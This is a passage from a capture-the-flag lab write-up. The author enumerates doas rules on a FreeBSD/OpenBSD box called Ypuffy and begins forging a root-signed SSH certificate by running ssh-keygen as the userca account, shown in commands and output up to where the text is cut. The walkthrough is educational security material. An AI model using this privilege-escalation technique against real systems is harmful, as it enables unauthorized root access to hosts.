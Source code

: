 •	I got back something for root, which is definitely interesting, and it isn’t just the user name like the others were. I’ll use this in the next step.
•	I didn’t get back anything for alice1978 or bob8791. How is that possible? I showed their names did return stuff earlier. Because ssh is using this other method for auth, it doesn’t have to check against the passwd file.
doas
On other piece of enumeration is necessary before I move into actually making the jump to root. Whenever I try to escalate privileges on a Linux host, one of the first things I check is sudo -l, to list what command I might be able to run as root using sudo. FreeBSD has a similar construct, doas. I can see what commands I can run with doas by reading /etc/doas.conf:
ypuffy$ cat /etc/doas.conf
permit keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
So I can run ssh-keygen as the userca user.
Getting a Signed root SSH Certificate
By combining the my ability to run ssh-keygen as userca and my knowledge of the root principal, I can generate a signed certificate that will let me SSH into this host as root.
Generate a key-pair
First, I’ll generate a key-pair on my local box using ssh-keygen:
root@kali# ssh-keygen -f id_rsa_ypuffy_root
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in id_rsa_ypuffy_root.
Your public key has been saved in id_rsa_ypuffy_root.pub.
The key fingerprint is:
SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI root@kali
The key's randomart image is:
+---[RSA 2048]----+
|         ....    |
|          =. ... |
|         o.o= ++ |
|        ...+oo o=|
|        S. .o+..=|
|           +.=E++|
|          . O=**o|
|           o.O=o+|
|              B=.|
+----[SHA256]-----+

root@kali# ls id_rsa_ypuffy_root*
id_rsa_ypuffy_root  id_rsa_ypuffy_root.pub
scp Public Key to Ypuffy
Next, I need to move these to the CA host for signing. I’ll use scp using alice’s public key to /tmp:
root@kali# scp -i alice.pem id_rsa_ypuffy_root.pub [alice1978@10.10.10.107](mailto:alice1978@10.10.10.107):/tmp/
id_rsa_ypuffy_root.pub                                                                                                                                                                    100%  391    20.3KB/s   00:00
Generate Signed Certificate
Now I’m going to generate the signed certificate using ssh-keygen running as userca. First, I’ll need to make sure my public key can be read by userca:
ypuffy$ chmod +r id_rsa_ypuffy_root.pub
ypuffy$ ls -l id_rsa_ypuffy_root.pub
-rwxr-xr--  1 alice1978  wheel  391 Feb  1 08:55 id_rsa_ypuffy_root.pub
Now, I’ll generate the cert: